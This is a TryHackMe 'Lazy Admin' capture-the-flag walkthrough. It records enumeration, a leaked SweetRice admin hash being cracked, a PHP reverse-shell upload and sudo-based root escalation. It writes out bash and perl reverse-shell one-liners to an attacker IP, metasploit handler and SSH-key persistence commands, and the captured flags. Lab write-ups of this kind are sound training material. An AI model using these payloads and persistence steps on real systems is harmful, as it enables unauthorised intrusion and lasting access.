



THM - Lazy Admin

1. `nmap -T4 -p- -A  10.10.244.128`
	```
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-07 23:22 EDT
	Warning: 10.10.244.128 giving up on port because retransmission cap hit (6).
	Nmap scan report for 10.10.244.128
	Host is up (0.11s latency).
	Not shown: 65342 closed ports, 191 filtered ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
	|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
	|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Apache2 Ubuntu Default Page: It works
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 987.08 seconds
	```
2. Nessus scan for fun
	Start with `sudo /etc/init.d/nessusd start` and go to `https://kali:8834`
3. Potential SSH Exploit
	1. Search google for `openssh 7.2p2 exploit` finds https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/ssh_enumusers and https://www.exploit-db.com/exploits/40136
	2. Metasploit
		```
		use auxiliary/scanner/ssh/ssh_enumusers
		set user_file /usr/share/wordlists/metasploit/unix_users.txt
		set rhosts 10.10.244.128
		run
		```
		Result: Says every username is correct (which is wrong so it must not be working)
4. Enumerate HTTP
	1. Going to `http://10.10.244.128/` reveals default webpage for Apache.
	2. Ran `nikto -h http://10.10.244.128`
		```
		- Nikto v2.1.6
		---------------------------------------------------------------------------
		+ Target IP:          10.10.244.128
		+ Target Hostname:    10.10.244.128
		+ Target Port:        80
		+ Start Time:         2020-05-07 23:25:33 (GMT-4)
		---------------------------------------------------------------------------
		+ Server: Apache/2.4.18 (Ubuntu)
		+ The anti-clickjacking X-Frame-Options header is not present.
		+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
		+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
		+ No CGI Directories found (use '-C all' to force check all possible dirs)
		+ Server may leak inodes via ETags, header found with file /, inode: 2c39, size: 59878d86c765e, mtime: gzip
		+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
		+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
		+ OSVDB-3233: /icons/README: Apache default file found.
		+ 7894 requests: 2 error(s) and 7 item(s) reported on remote host
		+ End Time:           2020-05-07 23:45:18 (GMT-4) (1185 seconds)
		---------------------------------------------------------------------------
		+ 1 host(s) tested
		```
	3. Subdirectory brute force with `gobuster`: `gobuster dir -u http://10.10.244.128 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` which found nothing (because not recursive).
	4. Try the `/usr/share/wordlists/dirb/common.txt` wordlist: `gobuster dir -u http://10.10.244.128 -t 200 -w /usr/share/wordlists/dirb/common.txt` finds `http://10.10.244.128/content/`.
	5. `gobuster` does not search recursively and `dirb` does not run multi-threaded. Basically, `dirbuster` is the best if recursion is wanted. `gobuster` is the best for a single direcotry since it is the fastest.
	6. Subdirectory brute force with `dirbuster` with `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` list finds the login page at `10.10.244.128/content/as/index.php`.
		```
		DirBuster 1.0-RC1 - Report
		http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
		Report produced on Fri May 08 00:51:29 EDT 2020
		--------------------------------
		
		http://10.10.244.128:80
		--------------------------------
		Directories found during testing:
		
		Dirs found with a 200 response:
		
		/
		/content/
		/content/images/
		/content/js/
		/content/inc/
		/content/inc/cache/
		/content/inc/lang/
		/content/inc/mysql_backup/
		/content/inc/font/
		/content/as/
		/content/as/js/
		/content/_themes/
		/content/_themes/default/
		/content/_themes/default/css/
		/content/attachment/
		/content/as/lib/
		
		Dirs found with a 403 response:
		
		/icons/
		/icons/small/
		
		
		--------------------------------
		Files found during testing:
		
		Files found with a 200 responce:
		
		/content/index.php
		/content/js/SweetRice.js
		/content/images/captcha.php
		/content/images/sitemap.xsl
		/content/js/function.js
		/content/js/init.js
		/content/js/pins.js
		/content/js/excanvas.compiled.js
		/content/inc/404.php
		/content/inc/alert.php
		/content/inc/close_tip.php
		/content/inc/db.php
		/content/inc/do_ads.php
		/content/inc/do_attachment.php
		/content/inc/do_category.php
		/content/inc/do_comment.php
		/content/inc/do_entry.php
		/content/inc/do_home.php
		/content/inc/do_lang.php
		/content/inc/do_rssfeed.php
		/content/inc/do_sitemap.php
		/content/inc/do_tags.php
		/content/inc/do_theme.php
		/content/inc/cache/cache.db
		/content/inc/error_report.php
		/content/inc/function.php
		/content/inc/htaccess.txt
		/content/inc/init.php
		/content/inc/install.lock.php
		/content/inc/lastest.txt
		/content/inc/rssfeed.php
		/content/inc/rssfeed_category.php
		/content/inc/rssfeed_entry.php
		/content/inc/sitemap_xml.php
		/content/inc/lang/big5.php
		/content/inc/lang/en-us.php
		/content/inc/lang/zh-cn.php
		/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
		/content/inc/font/arial.ttf
		/content/as/index.php
		/content/as/js/function.js
		/content/as/js/dashboard.js
		/content/as/js/BodySort.js
		/content/as/js/media_center.js
		/content/_themes/default/cat.php
		/content/_themes/default/sitemap.php
		/content/_themes/default/comment_form.php
		/content/_themes/default/entry.php
		/content/_themes/default/foot.php
		/content/_themes/default/head.php
		/content/_themes/default/main.php
		/content/_themes/default/form.php
		/content/_themes/default/show_comment.php
		/content/_themes/default/sidebar.php
		/content/_themes/default/tags.php
		/content/_themes/default/theme.config
		/content/_themes/default/css/app.css
		/content/as/lib/sitemap.php
		/content/as/lib/main.php
		/content/as/lib/media.php
		/content/as/lib/category.php
		/content/as/lib/site.php
		/content/as/lib/link.php
		/content/as/lib/post.php
		/content/as/lib/comment.php
		/content/as/lib/ad.php
		/content/as/lib/information.php
		/content/as/lib/license.php
		/content/as/lib/install.php
		/content/as/lib/update.php
		/content/as/lib/theme.php
		/content/as/lib/head.php
		/content/as/lib/function.php
		/content/as/lib/foot.php
		/content/as/lib/forgot_password.php
		/content/as/lib/plugin.php
		/content/as/lib/attachment.php
		/content/as/lib/htaccess.php
		/content/as/lib/tinymce.php
		/content/as/lib/timezone.php
		/content/as/lib/site_list.php
		/content/as/lib/media_center.php
		
		
		--------------------------------
		```
5. Test SQL Injection
	1. Seraching for `SweetRice exploit` finds https://www.netsparker.com/web-applications-advisories/ns-17-005-blind-sql-injection-vulnerability-in-sweetrice-1-5-1/
	2. `sqlmap -u '10.10.244.128/content/as/?type=post&mode=insert'` fails
6. `searchsploit sweetrice`
	```
		---------------------------------------------------------------------- ----------------------------------------
		 Exploit Title                                                        |  Path
		                                                                      | (/usr/share/exploitdb/)
		---------------------------------------------------------------------- ----------------------------------------
		SweetRice 0.5.3 - Remote File Inclusion                               | exploits/php/webapps/10246.txt
		SweetRice 0.6.7 - Multiple Vulnerabilities                            | exploits/php/webapps/15413.txt
		SweetRice 1.5.1 - Arbitrary File Download                             | exploits/php/webapps/40698.py
		SweetRice 1.5.1 - Arbitrary File Upload                               | exploits/php/webapps/40716.py
		SweetRice 1.5.1 - Backup Disclosure                                   | exploits/php/webapps/40718.txt
		SweetRice 1.5.1 - Cross-Site Request Forgery                          | exploits/php/webapps/40692.html
		SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution     | exploits/php/webapps/40700.html
		SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                 | exploits/php/webapps/14184.txt
		---------------------------------------------------------------------- ----------------------------------------
		Shellcodes: No Result
	```
7. Backup Disclosure: "You can access to all mysql backup and download them from this directory. `http://localhost/inc/mysql_backup`." Going to `http://10.10.244.128/content/inc/mysql_backup/` allows the `mysql_bakup_20191129023059-1.5.1.sql` file to be downloaded. SQL Backup File:
	```
	<?php return array (
	  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
	  1 => 'CREATE TABLE `%--%_attachment` (
	  `id` int(10) NOT NULL AUTO_INCREMENT,
	  `post_id` int(10) NOT NULL,
	  `file_name` varchar(255) NOT NULL,
	  `date` int(10) NOT NULL,
	  `downloads` int(10) NOT NULL,
	  PRIMARY KEY (`id`)
	) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
	  2 => 'DROP TABLE IF EXISTS `%--%_category`;',
	  3 => 'CREATE TABLE `%--%_category` (
	  `id` int(4) NOT NULL AUTO_INCREMENT,
	  `name` varchar(255) NOT NULL,
	  `link` varchar(128) NOT NULL,
	  `title` text NOT NULL,
	  `description` varchar(255) NOT NULL,
	  `keyword` varchar(255) NOT NULL,
	  `sort_word` text NOT NULL,
	  `parent_id` int(10) NOT NULL DEFAULT \'0\',
	  `template` varchar(60) NOT NULL,
	  PRIMARY KEY (`id`),
	  UNIQUE KEY `link` (`link`)
	) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
	  4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
	  5 => 'CREATE TABLE `%--%_comment` (
	  `id` int(10) NOT NULL AUTO_INCREMENT,
	  `name` varchar(60) NOT NULL DEFAULT \'\',
	  `email` varchar(255) NOT NULL DEFAULT \'\',
	  `website` varchar(255) NOT NULL,
	  `info` text NOT NULL,
	  `post_id` int(10) NOT NULL DEFAULT \'0\',
	  `post_name` varchar(255) NOT NULL,
	  `post_cat` varchar(128) NOT NULL,
	  `post_slug` varchar(128) NOT NULL,
	  `date` int(10) NOT NULL DEFAULT \'0\',
	  `ip` varchar(39) NOT NULL DEFAULT \'\',
	  `reply_date` int(10) NOT NULL DEFAULT \'0\',
	  PRIMARY KEY (`id`)
	) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
	  6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
	  7 => 'CREATE TABLE `%--%_item_data` (
	  `id` int(10) NOT NULL AUTO_INCREMENT,
	  `item_id` int(10) NOT NULL,
	  `item_type` varchar(255) NOT NULL,
	  `data_type` varchar(20) NOT NULL,
	  `name` varchar(255) NOT NULL,
	  `value` text NOT NULL,
	  PRIMARY KEY (`id`),
	  KEY `item_id` (`item_id`),
	  KEY `item_type` (`item_type`),
	  KEY `name` (`name`)
	) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
	  8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
	  9 => 'CREATE TABLE `%--%_item_plugin` (
	  `id` int(10) NOT NULL AUTO_INCREMENT,
	  `item_id` int(10) NOT NULL,
	  `item_type` varchar(255) NOT NULL,
	  `plugin` varchar(255) NOT NULL,
	  PRIMARY KEY (`id`)
	) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
	  10 => 'DROP TABLE IF EXISTS `%--%_links`;',
	  11 => 'CREATE TABLE `%--%_links` (
	  `lid` int(10) NOT NULL AUTO_INCREMENT,
	  `request` text NOT NULL,
	  `url` text NOT NULL,
	  `plugin` varchar(255) NOT NULL,
	  PRIMARY KEY (`lid`)
	) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
	  12 => 'DROP TABLE IF EXISTS `%--%_options`;',
	  13 => 'CREATE TABLE `%--%_options` (
	  `id` int(10) NOT NULL AUTO_INCREMENT,
	  `name` varchar(255) NOT NULL,
	  `content` mediumtext NOT NULL,
	  `date` int(10) NOT NULL,
	  PRIMARY KEY (`id`),
	  UNIQUE KEY `name` (`name`)
	) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
	  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
	  15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
	  16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
	  17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
	  18 => 'CREATE TABLE `%--%_posts` (
	  `id` int(10) NOT NULL AUTO_INCREMENT,
	  `name` varchar(255) NOT NULL,
	  `title` varchar(255) NOT NULL,
	  `body` longtext NOT NULL,
	  `keyword` varchar(255) NOT NULL DEFAULT \'\',
	  `tags` text NOT NULL,
	  `description` varchar(255) NOT NULL DEFAULT \'\',
	  `sys_name` varchar(128) NOT NULL,
	  `date` int(10) NOT NULL DEFAULT \'0\',
	  `category` int(10) NOT NULL DEFAULT \'0\',
	  `in_blog` tinyint(1) NOT NULL,
	  `views` int(10) NOT NULL,
	  `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
	  `template` varchar(60) NOT NULL,
	  PRIMARY KEY (`id`),
	  UNIQUE KEY `sys_name` (`sys_name`),
	  KEY `date` (`date`)
	) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
	);?>
	```
	Result: `"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";`
	Username: `manager`
	Password (Hased): `42f749ade7f9e195bf475f37a44cafcb`
8. Unhash password with [CrackStation](https://crackstation.net/) to get credentials `manager:Password123`. Sign in to `http://10.10.244.128/content/as/index.php` with credentials works successfully.
	
	**Current version:** 1.5.1
9. SQL Injection from before might have needed authentication. Lets try with the cookies we now have: `sqlmap -u '10.10.244.128/content/as/?type=post&mode=insert&sys_name=a' -p sys_name --cookie="admin=manager; dashboad_bg=#006c02; passwd=42f749ade7f9e195bf475f37a44cafcb; sweetrice=467r2hr82ggh6tuhn8oe2g5qf4"`. Nope, still fails.
10. [`php-reverse-shell`](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey. Change `$ip` in `php-reverse-shell` to `10.9.53.2`. Start netcat: `nc -nvlp 1234`.
	1. `Arbitrary File Upload` vulnerability: `python3 /usr/share/exploitdb/exploits/php/webapps/40716.py`:
		```
		kali@kali:~$ python3 /usr/share/exploitdb/exploits/php/webapps/40716.py
		+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
		|  _________                      __ __________.__                  |
		| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
		| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
		| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
		|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
		|        \/             \/     \/            \/        \/    \/     |                                                    
		|    > SweetRice 1.5.1 Unrestricted File Upload                     |
		|    > Script Cod3r : Ehsan Hosseini                                |
		+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
		
		Enter The Target URL(Example : localhost.com) : http://10.10.244.128/content 
		Enter Username : manager
		Enter Password : Password123
		Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
		Traceback (most recent call last):
		  File "/usr/lib/python3/dist-packages/urllib3/connection.py", line 156, in _new_conn
		    conn = connection.create_connection(
		  File "/usr/lib/python3/dist-packages/urllib3/util/connection.py", line 61, in create_connection
		    for res in socket.getaddrinfo(host, port, family, socket.SOCK_STREAM):
		  File "/usr/lib/python3.8/socket.py", line 918, in getaddrinfo
		    for res in _socket.getaddrinfo(host, port, family, type, proto, flags):
		socket.gaierror: [Errno -3] Temporary failure in name resolution
		
		During handling of the above exception, another exception occurred:
		
		Traceback (most recent call last):
		  File "/usr/lib/python3/dist-packages/urllib3/connectionpool.py", line 665, in urlopen
		    httplib_response = self._make_request(
		  File "/usr/lib/python3/dist-packages/urllib3/connectionpool.py", line 387, in _make_request
		    conn.request(method, url, **httplib_request_kw)
		  File "/usr/lib/python3.8/http/client.py", line 1230, in request
		    self._send_request(method, url, body, headers, encode_chunked)
		  File "/usr/lib/python3.8/http/client.py", line 1276, in _send_request
		    self.endheaders(body, encode_chunked=encode_chunked)
		  File "/usr/lib/python3.8/http/client.py", line 1225, in endheaders
		    self._send_output(message_body, encode_chunked=encode_chunked)
		  File "/usr/lib/python3.8/http/client.py", line 1004, in _send_output
		    self.send(msg)
		  File "/usr/lib/python3.8/http/client.py", line 944, in send
		    self.connect()
		  File "/usr/lib/python3/dist-packages/urllib3/connection.py", line 184, in connect
		    conn = self._new_conn()
		  File "/usr/lib/python3/dist-packages/urllib3/connection.py", line 168, in _new_conn
		    raise NewConnectionError(
		urllib3.exceptions.NewConnectionError: <urllib3.connection.HTTPConnection object at 0x7f85b3dffd60>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution
		```
		Result: Crashed
	2. Try manual file upload through web interface. Go to `http://10.10.244.128/content/as/?type=post&mode=insert` and add an attachment. Uploading the `phpshell.php` fails so try zipping it and using the "Extract Zip" option. This works. Select the file in the popup, exit the attachments popup, and copy url. Go to `http://10.10.95.161/content/attachment/c7bdb4eeb1350e47dda9152659fe29bd.php` and gain reverse shell.
		

		

		
10. Shell popped
	1. Switch to tty: `SHELL=/bin/bash script -q /dev/null`
	2. `sudo -l`
		```
		www-data@THM-Chal:/$ sudo -l
		sudo -l
		Matching Defaults entries for www-data on THM-Chal:
		    env_reset, mail_badpass,
		    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
		
		User www-data may run the following commands on THM-Chal:
		    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
		```
	3. Get user.txt: `cat /home/itguy/user.txt`
		**User Flag:** `THM{63e5bce9271952aad1113b6f1ac28a07}`
	4. `cat backup.pl`
		```
		#!/usr/bin/perl
		
		system("sh", "/etc/copy.sh");
		```
	5. `ls -la /etc/copy.sh`: `-rw-r--rwx 1 root root 81 Nov 29 13:45 /etc/copy.sh`. Anyone can read/write/execute. Lets edit to create a reverse shell.
	6. [reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has `bash -i >& /dev/tcp/10.9.53.2/4134 0>&1`
	7. `nc -nvlp 4134` on host
	8. `echo "bash -i >& /dev/tcp/10.9.53.2/4134 0>&1" > /etc/copy.sh` on target
	9. `sudo /usr/bin/perl /home/itguy/backup.pl` on target
	10. Bash reverse shell did not work because the script runs as `sh` not `bash`
	11. Try `perl -e 'use Socket;$i="10.9.53.2";$p=4134;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` since we know the machine has perl.
	12. `echo "perl -e 'use Socket;$i=\"10.9.53.2\";\$p=4134;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'"` (Escaped all double quotes and all dollar signs)
	13. `sudo /usr/bin/perl /home/itguy/backup.pl` on target
	14. Root Shell achieved
		```
		# whoami
		root
		# hostname
		THM-Chal
		```
	15. `cat /root/root.txt`
		**Root Flag:** `THM{6637f41d0177b6f37cb20d775124699f}`
	16. Get more stable shell
		* Form reverse meterpreter
			```
			sudo msfconsole
			use exploit/multi/handler
			set lhost 10.9.53.2
			set lport 7845
			set payload linux/x86/shell/reverse_tcp
			run
			```
		* Bash reverse shell
			```
			bash -c 'bash -i >& /dev/tcp/10.9.53.2/7845 0>&1'
			```
	17. Upgrade to meterpreter
		```
		use post/multi/manage/shell_to_meterpreter
		set session 1
		run
		```
	18. Allow access in at any time with SSH
		```
		use post/linux/manage/sshkey_persistence
		set session 2
		set CREATESSHFOLDER true
		run
		```
		And then in normal attacker prompt:
		
		```
		sudo chmod 400 /root/.msf4/loot/20200508020414_default_10.10.95.161_id_rsa_954950.txt
		sudo ssh -o "IdentitiesOnly=yes" -i /root/.msf4/loot/20200508020414_default_10.10.95.161_id_rsa_954950.txt root@10.10.95.161
		```


